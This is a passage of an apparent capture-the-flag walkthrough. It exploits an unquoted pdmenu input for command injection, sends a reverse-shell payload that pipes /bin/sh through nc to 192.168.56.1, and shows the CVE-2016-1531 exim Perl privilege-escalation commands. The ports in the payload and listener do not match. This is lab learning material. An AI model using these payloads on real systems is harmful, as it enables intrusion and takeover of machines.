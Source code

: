 ```bash
#!/usr/bin/pdmenu
#
# Note that the above bang-path isn't required, but it lets you run this
# file directly as a sort of pdmenu script.

# Sample menus for Pdmenu.

# Define the main menu.
menu:main:Main Menu
        exec:_Directory listing:truncate:ls -l
        exec:_Change directory:edit,set:echo PWD=~set to?:~
        exec:_Edit file:edit,pause:vim ~filename?:~
        exec:_Who's online?:truncate:echo "These users are online:";w
        exec:_WWW:edit,pause:lynx ~URL?:~
        exec:_Telnet:edit,pause:telnet "~Telnet to where?:~"
        exec:_Ping:edit,pause:ping "~host?:~"
        nop
        exit:_Exit
~                       
```

It's clear that the input for both Telnet and Ping are enclosed, this is not the case with WWW. We should be able to perform command injection here.

Lets first see if netcat is installed. It is, but it's the openbsd version. So we're going to open the following location:

```
localhost ; rm /tmp/pluck;mkfifo /tmp/pluck;cat /tmp/pluck|/bin/sh -i 2>&1 |nc 192.168.56.1 4444 >/tmp/pluck   
```

In a different terminal I started the following:
```bash
➜  keys nc -vnlp 5555
Listening on [0.0.0.0] (family 0, port 5555)
Connection from [192.168.56.102] port 5555 [tcp/*] accepted (family 2, sport 57726)
$ whoami
paul
$ 
```

Woot, we got shell. Now the 'only' thing we need to do is to get root. But first some local recon. Weirdly enough there are no suspicious files
present (except an image called rubber-duck .... don't ask). I did notice the following, there is an exim user. 

Is it possible that this has anything to do with the [PoC of CVE-2016-1531](https://www.exploit-db.com/exploits/39535/). Lets try it out

```bash
$ cat > /tmp/root.pm << EOF                 
package root;
use strict;
use warnings;
 
system("/bin/sh");
EOF> > > > > > 
$  PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = "en_ZA:en",
	LC_ALL = (unset),
	LC_CTYPE = "en_GB.UTF-8",
	LANG = "en_ZA.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to a fallback locale ("en_ZA.UTF-8").
```